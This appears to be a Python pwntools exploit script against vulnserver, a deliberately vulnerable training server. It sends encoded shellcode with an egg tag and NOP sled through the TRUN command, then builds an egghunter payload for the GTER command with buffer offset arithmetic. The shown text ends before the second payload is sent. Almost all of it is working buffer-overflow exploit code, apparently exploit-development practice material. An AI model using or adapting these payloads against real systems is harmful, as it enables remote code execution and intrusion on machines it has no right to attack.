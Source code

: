 ```
from pwn import *

host = '192.168.136.241'  
port = 9999

r = remote(host, port)

shellcode =  b""  
shellcode += b"\xba\x36\xdb\xa5\x76\xd9\xc4\xd9\x74\x24\xf4"  
shellcode += b"\x58\x2b\xc9\xb1\x52\x83\xc0\x04\x31\x50\x0e"  
shellcode += b"\x03\x66\xd5\x47\x83\x7a\x01\x05\x6c\x82\xd2"  
shellcode += b"\x6a\xe4\x67\xe3\xaa\x92\xec\x54\x1b\xd0\xa0"  
shellcode += b"\x58\xd0\xb4\x50\xea\x94\x10\x57\x5b\x12\x47"  
shellcode += b"\x56\x5c\x0f\xbb\xf9\xde\x52\xe8\xd9\xdf\x9c"  
shellcode += b"\xfd\x18\x27\xc0\x0c\x48\xf0\x8e\xa3\x7c\x75"  
shellcode += b"\xda\x7f\xf7\xc5\xca\x07\xe4\x9e\xed\x26\xbb"  
shellcode += b"\x95\xb7\xe8\x3a\x79\xcc\xa0\x24\x9e\xe9\x7b"  
shellcode += b"\xdf\x54\x85\x7d\x09\xa5\x66\xd1\x74\x09\x95"  
shellcode += b"\x2b\xb1\xae\x46\x5e\xcb\xcc\xfb\x59\x08\xae"  
shellcode += b"\x27\xef\x8a\x08\xa3\x57\x76\xa8\x60\x01\xfd"  
shellcode += b"\xa6\xcd\x45\x59\xab\xd0\x8a\xd2\xd7\x59\x2d"  
shellcode += b"\x34\x5e\x19\x0a\x90\x3a\xf9\x33\x81\xe6\xac"  
shellcode += b"\x4c\xd1\x48\x10\xe9\x9a\x65\x45\x80\xc1\xe1"  
shellcode += b"\xaa\xa9\xf9\xf1\xa4\xba\x8a\xc3\x6b\x11\x04"  
shellcode += b"\x68\xe3\xbf\xd3\x8f\xde\x78\x4b\x6e\xe1\x78"  
shellcode += b"\x42\xb5\xb5\x28\xfc\x1c\xb6\xa2\xfc\xa1\x63"  
shellcode += b"\x64\xac\x0d\xdc\xc5\x1c\xee\x8c\xad\x76\xe1"  
shellcode += b"\xf3\xce\x79\x2b\x9c\x65\x80\xbc\x63\xd1\x02"  
shellcode += b"\xca\x0c\x20\x12\x22\x91\xad\xf4\x2e\x39\xf8"  
shellcode += b"\xaf\xc6\xa0\xa1\x3b\x76\x2c\x7c\x46\xb8\xa6"  
shellcode += b"\x73\xb7\x77\x4f\xf9\xab\xe0\xbf\xb4\x91\xa7"  
shellcode += b"\xc0\x62\xbd\x24\x52\xe9\x3d\x22\x4f\xa6\x6a"  
shellcode += b"\x63\xa1\xbf\xfe\x99\x98\x69\x1c\x60\x7c\x51"  
shellcode += b"\xa4\xbf\xbd\x5c\x25\x4d\xf9\x7a\x35\x8b\x02"  
shellcode += b"\xc7\x61\x43\x55\x91\xdf\x25\x0f\x53\x89\xff"  
shellcode += b"\xfc\x3d\x5d\x79\xcf\xfd\x1b\x86\x1a\x88\xc3"  
shellcode += b"\x37\xf3\xcd\xfc\xf8\x93\xd9\x85\xe4\x03\x25"  
shellcode += b"\x5c\xad\x34\x6c\xfc\x84\xdc\x29\x95\x94\x80"  
shellcode += b"\xc9\x40\xda\xbc\x49\x60\xa3\x3a\x51\x01\xa6"  
shellcode += b"\x07\xd5\xfa\xda\x18\xb0\xfc\x49\x18\x91"

payload = "TRUN ."  
payload += "arzy"*2  
payload += "\xcc"  
payload += "\x90"*100  
payload += shellcode

r.readline()  
r.sendline(payload)  
r.readline()  
r.close()

#Reopening connection to vulnserver  
r = remote(host, port)

egghunter = "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"  
egghunter += "\xef\xb8\x61\x72\x7a\x79\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"

payload = ""  
payload += "GTER "  
payload += "A"*(151 - 50 + 2 + 4) # -50 for egghunter buffer, +4 for JMP ESP buffer  
payload += egghunter  
```